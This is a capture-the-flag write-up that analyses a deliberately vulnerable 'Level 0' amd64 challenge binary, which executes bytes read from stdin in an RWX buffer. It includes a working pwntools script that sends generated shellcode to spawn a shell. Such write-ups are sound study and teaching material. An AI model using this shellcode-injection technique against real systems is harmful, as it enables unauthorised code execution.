 ```yaml
---
slug: level-0
title: Level 0
authors: [nguyen]
tags: [CTF, Binary Exploitation]
---
```


CTF: Level 0

<!--truncate-->

[Executable used for the challenge](/files/level_0/level-0)

To download the challenge, right click the link and open in a new tab.

## The Challenge

Level 0 provides an amd64 executable where the goal is to get the executable to open a shell.

## Analysis

I decided to first use ghidra to have a better understanding of the program. In ghidra, I look for _start() as that as normally the entry point of a program.

![_start()](/img/level0_start.png)

_start() calls main so I looked into main next.

![main()](/img/level0_main.png)

I looked into init_chal and found that SIGALRM is sent 30 seconds after running the program. I ran the program and waited to see what would happen. It resulted in an output of 'Alarm clock' to the terminal before exiting the program. I noticed that the stdin and stdout buffers were both set to be unbuffered.

I went back to the main function and noticed memory is allocated to a buffer through the usage of mmap. Looking into the arguments that are used in mmap, I saw that the prot field contained read, write, and execute for the page. The length of the mapping is 4096 bytes. After memory has been allocated, read is called to read stdin into the buffer up to 4096 bytes. The buffer is called as a function pointer to be executed before returning.

This makes it clear that I need to send instructions through stdin in order to open a shell.

I accomplish this with the following code.

```python
from pwn import *

exe = ELF("./level-0")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']

def conn():
    '''Establish the connection to the file
    '''

    io = process([exe.path])
    return io


def main():
    '''Pop open a shell
    '''

    with conn() as io:
        shellcode = asm(shellcraft.amd64.linux.sh())
        io.sendline(shellcode)
        io.interactive()


if __name__ == '__main__':
    main()
```

`shellcraft.amd64.linux.sh()` contained the instructions for opening a shell and I used `asm()` in order to convert assembly into bytes. The shellcode is then sent directly to the program.

I ran this script and was able to access a shell from within the level-0 program.
